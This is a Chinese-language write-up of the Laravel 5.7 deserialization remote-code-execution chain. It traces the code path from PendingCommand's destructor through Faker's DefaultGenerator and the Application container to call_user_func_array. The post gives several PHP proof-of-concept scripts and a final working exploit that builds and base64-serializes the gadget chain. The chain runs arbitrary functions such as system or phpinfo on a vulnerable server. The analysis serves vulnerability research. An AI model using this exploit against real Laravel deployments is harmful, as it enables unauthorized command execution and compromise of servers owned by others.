


参考自：[https://secfeng.github.io/2023/05/30/laravel5.7%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/](https://secfeng.github.io/2023/05/30/laravel5.7%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)

[https://blog.csdn.net/weixin_45678034/article/details/122292624](https://blog.csdn.net/weixin_45678034/article/details/122292624)

## 漏洞分析

vendor/laravel/framework/src/Illuminate/Foundation/Testing/PendingCommand.php

```
public function __destruct()
{
    if ($this->hasExecuted) {
        return;
    }

    $this->run();
}
```

进入 run 函数

```bash
public function run()
{
    $this->hasExecuted = true;

    $this->mockConsoleOutput();

    try {
        $exitCode = $this->app[Kernel::class]->call($this->command, $this->parameters);
    } catch (NoMatchingExpectationException $e) {
        if ($e->getMethodName() === 'askQuestion') {
            $this->test->fail('Unexpected question "'.$e->getActualArguments()[0]->getQuestion().'" was asked.');
        }

        throw $e;
    }

    if ($this->expectedExitCode !== null) {
        $this->test->assertEquals(
            $this->expectedExitCode, $exitCode,
            "Expected status code {$this->expectedExitCode} but received {$exitCode}."
        );
    }

    return $exitCode;
}
```

先构造一个序列化值进入 run

```cpp
<?php
namespace Illuminate\Foundation\Testing{
    class PendingCommand
    {
        protected $command;

        protected $parameters;

        public function __construct($command, $parameters){
            $this->command = $command;
            $this->parameters[] = $parameters;
        }

    }
}
namespace {
    use Illuminate\Foundation\Testing\PendingCommand;
    $mm = new PendingCommand("system","phpinfo");
    echo base64_encode(serialize($mm));
}
```



分析一下 mockConsoleOutput()函数，发现在

```bash
private function createABufferedOutputMock()
{
    $mock = Mockery::_mock_(BufferedOutput::class.'[doWrite]')
            ->shouldAllowMockingProtectedMethods()
            ->shouldIgnoreMissing();

    foreach ($this->test->expectedOutput as $i => $output) {
        $mock->shouldReceive('doWrite')
            ->once()
            ->ordered()
            ->with($output, Mockery::_any_())
            ->andReturnUsing(function () use ($i) {
                unset($this->test->expectedOutput[$i]);
            });
    }

    return $mock;
}
```

在执行 foreach ($this->test->expectedOutput as $i => $output) 时候，因为 test 为 null，所以报错

为 test 赋值，这里直接全局搜索

```
function __get(
```

找到 vendor/fzaninotto/faker/src/Faker/DefaultGenerator.php

```
public function __get($attribute)
{
    return $this->default;
}
```

这里返回值可控，让其返回一个数组

写一个 POC

```cpp
<?php
namespace Faker{
    class DefaultGenerator
    {
        protected $default;
        public function __construct(){
            $this->default = array("abc"=>"KFC");
        }
    }
    }


namespace Illuminate\Foundation\Testing{

    use Faker\DefaultGenerator;

    class PendingCommand
    {

        protected $command;
        protected $parameters;
        public $test;

        public function __construct($command, $parameters){
            $this->command = $command;
            $this->parameters[] = $parameters;
            $this->test = new DefaultGenerator();

        }

    }
}
namespace {
    use Illuminate\Foundation\Testing\PendingCommand;
    $mm = new PendingCommand("system","phpinfo");
    echo base64_encode(serialize($mm));
}
```

下断点继续调试

```bash
protected function mockConsoleOutput()
{
    $mock = Mockery::_mock_(OutputStyle::class.'[askQuestion]', [
        (new ArrayInput($this->parameters)), $this->createABufferedOutputMock(),
    ]);

    foreach ($this->test->expectedQuestions as $i => $question) {
        $mock->shouldReceive('askQuestion')
            ->once()
            ->ordered()
            ->with(Mockery::_on_(function ($argument) use ($question) {
                return $argument->getQuestion() == $question[0];
            }))
            ->andReturnUsing(function () use ($question, $i) {
                unset($this->test->expectedQuestions[$i]);

                return $question[1];
            });
    }

    $this->app->bind(OutputStyle::class, function () use ($mock) {
        return $mock;
    });
}
```

继续执行到$this->app->bind(OutputStyle::class, function () use ($mock) {这里，发现 app 属性为空，报错，这里给 $app 属性是实例化的 application 对象，赋值为 new Application();



继续走，函数执行跳出 $this->mockConsoleOutput();

然后执行到

```php
$exitCode = $this->app[Kernel::class]->call($this->command, $this->parameters);
```

这个时候的 app 已经是 Application 类的对象,kernel:class 是 Illuminate\Contracts\Console\Kernel,对象被当做数组使用的话必须要使用 ArrayAccess 接口，而刚好 Application 类的父类 Container 类中就有使用了这个接口,这个 call 函数也是在 app 中的,所以得返回一个 app 对象

一直执行，跳转到跳到父类 vendor/laravel/framework/src/Illuminate/Container/Container.php 的 make

```bash
public function make($abstract, array $parameters = [])
{
    return $this->resolve($abstract, $parameters);
}
```

继续执行，进入 resolve 函数

```java
protected function resolve($abstract, $parameters = [])
{
    $abstract = $this->getAlias($abstract);

    $needsContextualBuild = ! empty($parameters) || ! is_null(
        $this->getContextualConcrete($abstract)
    );

    // If an instance of the type is currently being managed as a singleton we'll
    // just return an existing instance instead of instantiating new instances
    // so the developer can keep using the same objects instance every time.
    if (isset($this->instances[$abstract]) && ! $needsContextualBuild) {
        return $this->instances[$abstract];
    }

    $this->with[] = $parameters;

    $concrete = $this->getConcrete($abstract);

    // We're ready to instantiate an instance of the concrete type registered for
    // the binding. This will instantiate the types, as well as resolve any of
    // its "nested" dependencies recursively until all have gotten resolved.
    if ($this->isBuildable($concrete, $abstract)) {
        $object = $this->build($concrete);
    } else {
        $object = $this->make($concrete);
    }

    // If we defined any extenders for this type, we'll need to spin through them
    // and apply them to the object being built. This allows for the extension
    // of services, such as changing configuration or decorating the object.
    foreach ($this->getExtenders($abstract) as $extender) {
        $object = $extender($object, $this);
    }

    // If the requested type is registered as a singleton we'll want to cache off
    // the instances in "memory" so we can return it later without creating an
    // entirely new instance of an object on each subsequent request for it.
    if ($this->isShared($abstract) && ! $needsContextualBuild) {
        $this->instances[$abstract] = $object;
    }

    $this->fireResolvingCallbacks($abstract, $object);

    // Before returning, we will also set the resolved flag to "true" and pop off
    // the parameter overrides for this build. After those two things are done
    // we will be ready to return back the fully constructed class instance.
    $this->resolved[$abstract] = true;

    array_pop($this->with);

    return $object;
}
```

这里有两个利用点可以返回 app 对象
一.在下方代码 15 行返回
二.最后一个 return $object

- 要在 15 行返回 app 对象

```
if (isset($this->instances[$abstract]) && ! $needsContextualBuild) {
            return $this->instances[$abstract];
        }
```

```
$parameters是个空数组取反后为假,再跳转到getContextualConcrete(),$abstract一直都是"Illuminate\Contracts\Console\Kernel"
```

这里设置 $this->abstractAliases[Illuminate\Contracts\Console\Kernel]为 new Application();

但是要特别注意下这里的构造函数，容易造成递归调用，导致失败

```
public function __construct($instances=[]){
    $this->instances['Illuminate\Contracts\Console\Kernel'] =$instances;
}
```

去调用 call 方法,再去跟一下 call 方法

```bash
public function call($callback, array $parameters = [], $defaultMethod = null)
    {
        return BoundMethod::call($this, $callback, $parameters, $defaultMethod);
    }
```

第一个参数是执行的命令,第二个是参数,第 3 个默认为空,继续进入 BoundMethod::call

```bash
public static function call($container, $callback, array $parameters = [], $defaultMethod = null)
    {
        if (static::isCallableWithAtSign($callback) || $defaultMethod) {
            return static::callClass($container, $callback, $parameters, $defaultMethod);
        }

        return static::callBoundMethod($container, $callback, function () use ($container, $callback, $parameters) {
            return call_user_func_array(
                $callback, static::getMethodDependencies($container, $callback, $parameters)
            );
        });
    }
```

我们不能进入第一个 if 的返回所以先看看第一个 if 判断, $defaultMethod 是空这个我们不管他

```bash
protected static function isCallableWithAtSign($callback)
    {
        return is_string($callback) && strpos($callback, '@') !== false;
    }
```

这里只要命令中不带 @ 就会返回假，所以不会进入 call 中的 if,继续分析 call 下面的代码

```bash
return static::callBoundMethod($container, $callback, function () use ($container, $callback, $parameters) {
            return call_user_func_array(
                $callback, static::getMethodDependencies($container, $callback, $parameters)
            );
        });
```

主要看 call_user_func_array 的第二个参数

```bash
protected static function getMethodDependencies($container, $callback, array $parameters = [])
    {
        $dependencies = [];

        foreach (static::getCallReflector($callback)->getParameters() as $parameter) {
            static::addDependencyForCallParameter($container, $parameter, $parameters, $dependencies);
        }

        return array_merge($dependencies, $parameters);
    }
```

## exp

```bash
<?php

namespace Illuminate\Foundation{
    class Application
    {
        protected $instances = [];
        public function __construct($instances=[]){
            $this->instances['Illuminate\Contracts\Console\Kernel'] =$instances;
        }
    }
}

namespace Faker{
    class DefaultGenerator
    {
        protected $default;
        public function __construct(){
            $this->default = array("abc"=>"KFC");
        }
    }
    }


namespace Illuminate\Foundation\Testing{

    use Faker\DefaultGenerator;

    class PendingCommand
    {

        protected $command;
        protected $parameters;
        public $test;
        protected $app;

        public function __construct($command, $parameters,$instances){
            $this->command = $command;
            $this->parameters[] = $parameters;
            $this->test = new DefaultGenerator();
            $this->app = $instances;

        }

    }
}
namespace {
    use Illuminate\Foundation\Testing\PendingCommand;
    use Illuminate\Foundation\Application;
    $a = new Application();
    $app = new Application($a);
    $mm = new PendingCommand("phpinfo",1,$app);
    echo base64_encode(serialize($mm));
}
```

---

## Reference：

[https://blog.csdn.net/byname1/article/details/137176425](https://blog.csdn.net/byname1/article/details/137176425)（精研）

[https://mochazz.github.io/2019/06/25/Laravel5.7%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%B9%8BRCE%E9%93%BE%E6%8C%96%E6%8E%98/#%E6%BC%8F%E6%B4%9E%E9%93%BE%E6%8C%96%E6%8E%98](https://mochazz.github.io/2019/06/25/Laravel5.7%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%B9%8BRCE%E9%93%BE%E6%8C%96%E6%8E%98/#%E6%BC%8F%E6%B4%9E%E9%93%BE%E6%8C%96%E6%8E%98)

[https://blog.csdn.net/weixin_45678034/article/details/122292624](https://blog.csdn.net/weixin_45678034/article/details/122292624)

[https://laworigin.github.io/2019/02/21/laravelv5-7%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96rce/](https://laworigin.github.io/2019/02/21/laravelv5-7%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96rce/)

[https://bbs.kanxue.com/thread-270904.htm](https://bbs.kanxue.com/thread-270904.htm)

[https://zhuanlan.zhihu.com/p/457450028](https://zhuanlan.zhihu.com/p/457450028)

[https://rivers.chaitin.cn/blog/cq9k9v90lnechd245pr0](https://rivers.chaitin.cn/blog/cq9k9v90lnechd245pr0)

[https://www.cnblogs.com/tr1ple/p/11079354.html](https://www.cnblogs.com/tr1ple/p/11079354.html)

[https://www.anquanke.com/post/id/258264](https://www.anquanke.com/post/id/258264)

